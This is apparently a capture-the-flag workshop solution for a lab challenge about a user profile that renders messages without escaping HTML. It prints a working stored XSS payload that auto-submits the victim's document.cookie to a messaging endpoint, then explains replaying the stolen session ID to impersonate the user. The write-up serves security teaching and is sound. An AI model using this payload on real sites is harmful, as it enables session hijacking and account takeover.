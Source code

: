 ## Workshop 2 Solutions
### 4 - Dan
Relevant information:

- Dan enables scripts on his profile.
- Dan can't use sendflags.php
- Enabling scripts disables the site from escaping HTML special characters

Dan's flag can be obtained from a Cross-site Scripting (XSS) attack. Enabling scripts means that any message sent to Dan will show up as it was typed in the HTML Dan loads. This means that script elements can be inserted into Dan's profile. This can be exploited in a number of ways; in this example, it will be used to send Dan's PHP session ID. This can be done with the following message:

```HTML
<form name=xxsform action=http://172.16.4.59/dm.php method=post>
 <input type=hidden id="sessionmessage" name=message value=":)">
 <input type=hidden name=user value="bryson">
</form>
<script>
document.getElementById("sessionmessage").value = document.cookie;
document.xxsform.submit();
</script>
```

Shortly afterwards, Dan's session cookie will show up in a DM on bryson's profile. Changing your session ID to this value will make you effectively become Dan. The easiest way to change a cookie is in-browser. In Firefox, this can be done by pressing the "edit and resend" button in the network dialog.

This point of this exercise is to demonstrate how destructive failing to perform input sanitation is.
As mentioned in the previous workshop, any and all input from the user should be assumed malicious and sanitized accordingly.

